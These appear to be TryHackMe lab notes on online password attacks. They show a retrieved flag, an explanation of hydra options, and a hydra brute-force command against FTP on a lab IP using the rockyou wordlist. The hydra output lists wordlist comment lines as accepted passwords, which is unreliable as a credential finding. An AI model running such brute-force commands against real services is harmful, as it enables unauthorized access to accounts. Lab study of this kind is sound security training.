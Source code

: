 ```
226 Transfer complete.
38 bytes received in 00:00 (34.23 KiB/s)
ftp> ^D
221 Goodbye.
                                                                                                        
┌──(root㉿kali)-[~]
└─# cat flag.txt 
THM{d0abe799f25738ad739c20301aed357b}

```

## Online Password Attacks

Online password attacks involve guessing passwords for networked services that use a username and password authentication scheme, including services such as HTTP, SSH, VNC, FTP, SNMP, POP3, etc. This section showcases using hydra which is a common tool used in attacking logins for various network services.
Hydra

Hydra supports an extensive list of network services to attack. Using hydra, we'll brute-force network services such as web login pages, FTP, SMTP, and SSH in this section. Often, within hydra, each service has its own options and the syntax hydra expects takes getting used to. It's important to check the help options for more information and features.

**FTP**
```bash
user@machine$ hydra -l ftp -P passlist.txt ftp://10.10.x.x

"
-l ftp we are specifying a single username, use-L for a username wordlist
-P Path specifying the full path of wordlist, you can specify a single password by using -p.
ftp://10.10.x.x the protocol and the IP address or the fully qualified domain name (FDQN) of the target.
"
```

-l ftp we are specifying a single username, use-L for a username wordlist

-P Path specifying the full path of wordlist, you can specify a single password by using -p.

ftp://10.10.x.x the protocol and the IP address or the fully qualified domain name (FDQN) of the target.


```bash
dir_wordlist=/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
rhost=10.10.131.9
password=/usr/share/wordlists/rockyou.txt
hydra -l ftp -P $password ftp://$rhost
```

test
```
[DATA] attacking ftp://10.10.131.9:21/
[21][ftp] host: 10.10.131.9   login: ftp   password: # on at least 2 different hosts
[21][ftp] host: 10.10.131.9   login: ftp   password: # directory-list-2.3-medium.txt
[21][ftp] host: 10.10.131.9   login: ftp   password: #
[21][ftp] host: 10.10.131.9   login: ftp   password: # Copyright 2007 James Fisher
[21][ftp] host: 10.10.131.9   login: ftp   password: #
[21][ftp] host: 10.10.131.9   login: ftp   password: # This work is licensed under the Creative Commons
[21][ftp] host: 10.10.131.9   login: ftp   password: # Attribution-Share Alike 3.0 License. To view a copy of this                                                                
[21][ftp] host: 10.10.131.9   login: ftp   password: # license, visit http://creativecommons.org/licenses/by-sa/3.0/                                                              
[21][ftp] host: 10.10.131.9   login: ftp   password: # or send a letter to Creative Commons, 171 Second Street,                                                                   
```